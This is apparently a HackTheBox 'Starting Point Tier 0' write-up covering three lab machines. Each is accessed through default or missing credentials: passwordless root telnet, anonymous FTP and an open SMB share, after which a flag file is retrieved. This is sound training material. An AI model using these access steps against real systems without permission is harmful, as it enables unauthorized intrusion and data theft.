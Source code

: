 ```yaml
---
title: Starting Point | Tier 0
author: Zeropio
date: 2022-02-27
categories: [Pentesting, HackTheBox]
tags: [htb]
permalink: /pentesting/htb/starting-point/tier0
---
```



# Meow
## Connection
We just need to connect with telnet. The user will be root, with no password.
```console
> telnet 10.129.53.229
> Meow login: root
```

## Flag
Then we will have the flag just there.
```console
> ls
> cat flag.txt
```

---

# Fawn
## Connection
In this case we need to make a connection with ftp. We will use the **anonymous** user to connect, with no password.
```console
> ftp 10.129.1.14
Name (10.129.1.14:kali): anonymous
Password:
```

## Flag
With **get**, we can download the file.
```console
ftp> ls
ftp> get flag.txt
ftp> exit

> cat flag.txt
```

---

# Dancing
## Connection
We will need to use samba to connect. With the option **-L** we can see all the folders we have. We can see that the last one doesn't have protection.
```console
> smbclient -L //10.129.119.218/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk 
> smbclient //10.129.119.218/WorkShares
```

## Flag
With the command **get** we can download the file.
```console
smb: \> ls
smb: \> cd James.P\
smb: \James.P\> ls
smb: \James.P\> get flag.txt
smb: \James.P\> exit

> cat flag.txt 
```
